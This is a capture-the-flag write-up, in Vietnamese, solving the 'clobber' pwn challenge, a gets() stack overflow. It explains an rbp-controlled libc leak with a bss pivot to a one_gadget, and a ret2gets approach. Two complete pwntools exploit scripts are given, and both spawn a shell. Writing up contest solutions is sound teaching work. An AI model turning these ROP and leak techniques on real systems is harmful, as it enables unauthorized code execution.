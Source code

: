 ```yaml
--- 
title: DwngCTF-2025
date: 2025-02-16 
description : 'DwngCTF-2025'
tags: ['rop']
authors: ['kuvee']
draft: false
---
```



## clobber

- các bài trước khá dễ nên mình sẽ không đề cập , và bài này khá là vui nên mình sẽ ghi writeup về nó 


- nhìn qua thì ta thấy ngay đây chỉ là 1 bài `bof` đơn giản , tuy nhiên bài này sẽ không có các gadget như `pop_rdi` , `pop_rsi` , nên ta phải cần pivot hoặc là sử dụng `ret2gets` 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(_bss_start, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  gets(s);
  puts(s);
  return 0;
}
```

- ý tưởng rất đơn giản , trước khi `puts` thì ta thấy nó sẽ setup 1 số thứ để in ra , và ở đoạn này ta hoàn toàn có thể control được `rbp` -> ta có thể control được dữ liệu mà nó leak ra 

![image](https://hackmd.io/_uploads/rJZhnEX1xx.png)

- ta có thể lựa 1 địa chỉ nào đó chứa địa chỉ libc như `got` hoặc là ta cũng có thể chọn `stdout` , `stdin` , `stderr`  , ở trường hợp này `stderr` có vẻ dễ hơn vì nó không ghi đè bất cứ giá trị quan trọng nào nhưng mình chọn `rbp` này là `got@puts`


- trước hết muốn in ra thì ta cần overwrite đoạn mà khi puts xong nó return về , ở đây space mà ta có thể ghi để return về 1 `bss` khác là 50 bytes , vừa đủ để không overwrite dính vào `stdout` 

![image](https://hackmd.io/_uploads/rklA6Emyex.png)


- vì vậy mình sẽ setup 1 bss để khi in xong thì nó sẽ return về  và thực hiện một số điều để thõa mãn `one_gadget` :))

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwn import *

context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
context.update(arch="amd64", os="linux")
context.log_level = "debug"
exe = context.binary = ELF("./clobber_patched", checksec=False)
libc = exe.libc
log_levels = ["info", "error", "warn", "debug"]
info = lambda msg: log.info(msg)
error = lambda msg: log.error(msg)
warn = lambda msg: log.warn(msg)
debug = lambda msg: log.debug(msg)


def one_gadget(filename, base_addr=0):
    return [
        (int(i) + base_addr)
        for i in subprocess.check_output(["one_gadget", "--raw", "-l0", filename])
        .decode()
        .split(" ")
    ]


info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: (
    proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: (
    proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
)
sn = lambda num, proc=None: (
    proc.send(str(num).encode()) if proc else p.send(str(num).encode())
)
sna = lambda msg, num, proc=None: (
    proc.sendafter(msg, str(num).encode())
    if proc
    else p.sendafter(msg, str(num).encode())
)
sln = lambda num, proc=None: (
    proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
)
slna = lambda msg, num, proc=None: (
    proc.sendlineafter(msg, str(num).encode())
    if proc
    else p.sendlineafter(msg, str(num).encode())
)


def logbase():
    log.info("libc base = %#x" % libc.address)


def rcu(d1, d2=0):
    p.recvuntil(d1, drop=True)
    # return data between d1 and d2
    if d2:
        return p.recvuntil(d2, drop=True)


def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(
            int(pid),
            gdbscript=gdbscript
            + f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe",
            exe=exe.path,
        )
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
b*0x00000000004011CA
b*0x00000000004011D6
b*0x00000000004011E1
c
"""

p = start()

# ==================== EXPLOIT ====================


def exploit():
    leave_ret = 0x00000000004011E0
    bss = 0x404000 + 0x600
    bss2 = 0x404000 + 0x400
    bss = 0x405000 - 0x100
    gets = 0x00000000004011BE
    puts = 0x4011CF
    stdout = 0x404040

    pl = flat(b"a" * 32, p64(0x404400 - 16), gets)
    sl(pl)

    pl1 = (
        b"a" * 32
        + p64(0x404010 + 0x20)
        + p64(gets)
        + p64(exe.got.puts + 0x20)
        + p64(puts)
        + b"a" * 0x10
        + p64(0x404430 + 0x20)
        + p64(gets)
    )
    sl(pl1)
    pl2 = b"a" * 0x10 + p64(bss2 + 0x20) + p64(leave_ret) + p64(bss2) + p32(leave_ret)
    sl(pl2)
    # pl3 = flat(b"a" * 0x20, exe.got.puts + 0x20, gets)
    info("payload3")
    # sl(pl3)

    p.recvlines(3)
    libc.address = u64(p.recv(6).ljust(8, b"\x00")) - libc.sym.puts
    logbase()
    pop_rdi = 0x000000000002A885 + libc.address
    binsh = next(libc.search(b"/bin/sh\x00"))
    pop_r12 = 0x0000000000028A82 + libc.address
    final = flat(b"c" * 32, bss2, pop_rdi, 0, pop_r12, 0, libc.address + 0xD0775)

    input()
    sl(final)

    p.interactive()


if __name__ == "__main__":
    exploit()
```

- 1 cách khác là sử dụng `ret2gets` , cái này khá rắc rối nên ta có thể hiểu là khi sử dụng `gets` thì nó sẽ để lại 1 địa chỉ libc ở `rdi` và thằng này sẽ là `_IO_stdfile_0_lock`

![image](https://hackmd.io/_uploads/rkc9lBmJxx.png)

- và ở đây giải thích khá chi tiết

![image](https://hackmd.io/_uploads/HyxY-Bmkel.png)

exp

```python
from pwn import *

context.terminal = "kitty"
elf = context.binary = ELF("./clobber_patched")
libc = ELF("./libc.so.6")
r = remote("clobber.umbccd.net", 13373)

payload = b"a" * 0x20
payload += p64(0x0)
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)

r.sendline(b"\x01")
r.sendline(p32(0x0) + b"A" * 4 + b"B" * 8)
r.sendline(b"CCCC")

r.recvline()
r.recv(8)
tls = u64(r.recv(6).ljust(8, b"\x00"))
libc.address = tls + 0x28c0
print("libc @", hex(libc.address))

payload = b"a" * 0x28
payload += p64(next(libc.search(asm("pop rdi; ret;"), executable=True)))
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.sym["system"])

r.sendline(payload)

r.interactive()
```
